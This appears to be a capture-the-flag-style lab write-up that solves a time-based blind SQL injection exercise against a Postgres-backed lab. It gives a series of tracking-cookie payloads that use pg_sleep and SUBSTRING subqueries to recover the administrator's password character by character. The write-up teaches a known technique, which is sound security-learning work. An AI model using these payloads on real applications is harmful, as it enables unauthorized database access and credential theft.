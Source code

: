 # Problem Statement

This lab contains a blind SQL injection vulnerability. The application uses a tracking cookie for analytics, and performs a SQL query containing the value of the submitted cookie. The results of the SQL query are not returned, and the application does not respond any differently based on whether the query returns any rows or causes an error. However, since the query is executed synchronously, it is possible to trigger conditional time delays to infer information. The database contains a different table called users, with columns called username and password. You need to exploit the blind SQL injection vulnerability to find out the password of the administrator user. To solve the lab, log in as the administrator user. 

# Solution

In Burp Suite's Repeater tool, send the following query to the server and observe the time delay:

```
TrackingId='Abc...Xyz' SELECT pg_sleep(10)--'
```

This confirms that SQL injection is possible and that the server is running a Postgres database. We will use the pg_sleep function to induce sleep and structure conditionals using Postgres syntax. Since our objective is to login as the administrator, we should exploit the time delay to enumerate the administrator's password with a query like the following:

```
TrackingId='Abc...Xyz' SELECT CASE WHEN (CONDITION-HERE) THEN pg_sleep(10) ELSE pg_sleep(0) END--'
```

Using SUBSTRING and a subquery within the conditional, we can enumerate the password as follows:

```
TrackingId='Abc...Xyz''; SELECT CASE WHEN (SUBSTRING((SELECT password FROM users WHERE username='administrator'), 1, 1) > 'm') THEN pg_sleep(10) ELSE pg_sleep(0) END--
```

This first query induces sleep on the server, telling us that the first character of the administrator's password is greater than 'm'. We then modify the query to compare the character to 't', and find that the character is also greater than 't'. 
 
```
TrackingId='Abc...Xyz''; SELECT CASE WHEN (SUBSTRING((SELECT password FROM users WHERE username='administrator'), 1, 1) > 't') THEN pg_sleep(10) ELSE pg_sleep(0) END--
```

Subsequently, the query is modified to check if the first character of the administrator's password is greater than 'w'. This query does not induce sleep, indicating the first character is less than or equal to 'w'.

```
TrackingId='Abc...Xyz''; SELECT CASE WHEN (SUBSTRING((SELECT password FROM users WHERE username='administrator'), 1, 1) > 'w') THEN pg_sleep(10) ELSE pg_sleep(0) END--
```

We then send another query to check if the first character is greater than 'v', the character directly preceding 'w' in value. This query induces sleep, indicating the first character is greater than 'v'. Because the character is greater than 'v', but not greater than 'w', the character is 'w'. 

```
TrackingId='Abc...Xyz''; SELECT CASE WHEN (SUBSTRING((SELECT password FROM users WHERE username='administrator'), 1, 1) > 'v') THEN pg_sleep(10) ELSE pg_sleep(0) END--
```

Note: This is a demonstration of password enumeration using a modified binary search method. You should mirror the general methodology while expecting a different password. 

We repeat this method for the next character:

```
TrackingId='Abc...Xyz''; SELECT CASE WHEN (SUBSTRING((SELECT password FROM users WHERE username='administrator'), 2, 1) > 'm') THEN pg_sleep(10) ELSE pg_sleep(0) END--
```

The above query does not induce sleep, which tells us the second character is less than or equal to 'm'. Next, we modify the query to compare the second character to 'h':

```
TrackingId='Abc...Xyz''; SELECT CASE WHEN (SUBSTRING((SELECT password FROM users WHERE username='administrator'), 2, 1) > 'h') THEN pg_sleep(10) ELSE pg_sleep(0) END--
```

This query causes a delayed response, indicating the second character is greater than 'h', and less than or equal to 'm'. We then compare the second character to 'k':

```
TrackingId='Abc...Xyz''; SELECT CASE WHEN (SUBSTRING((SELECT password FROM users WHERE username='administrator'), 2, 1) > 'k') THEN pg_sleep(10) ELSE pg_sleep(0) END--
```

This query also induces sleep, so the second character is 'l' or 'm'. Modifying the query compare the character to 'l' does not induce sleep, indicating the character is less than or equal to 'l'. If the second character is greater than 'k', but less than or equal to 'l', then the character is equal to 'l'. We can verify this by changing the greater than operator (>) to an equal operator (=):

```
TrackingId='Abc...Xyz''; SELECT CASE WHEN (SUBSTRING((SELECT password FROM users WHERE username='administrator'), 2, 1) = 'l') THEN pg_sleep(10) ELSE pg_sleep(0) END--
```

The query induces sleep, proving the second character is 'l'. 

Repeat this process until every character in the password has been enumerated, and log in as the administrator. The password identified for this example is 'wl4t6rj74odiy8979mrx'. Note the response time in for this query:

```
TrackingId='AbC...xYz'; SELECT CASE WHEN (SUBSTRING((SELECT password FROM users WHERE username='administrator'), 1, 20) = 'wl4t6rj74odiy8979mrx') THEN pg_sleep(3) ELSE pg_sleep(0) END--
```

![Screen Shot 2023-08-03 at 5 46 19 PM](https://github.com/SaturnineTitan/WebSecurityAcademy/assets/43506369/e8382530-c29a-461a-a9e5-f3acf2893f77)

We then use this password to log in as the administrator, solving the lab. 
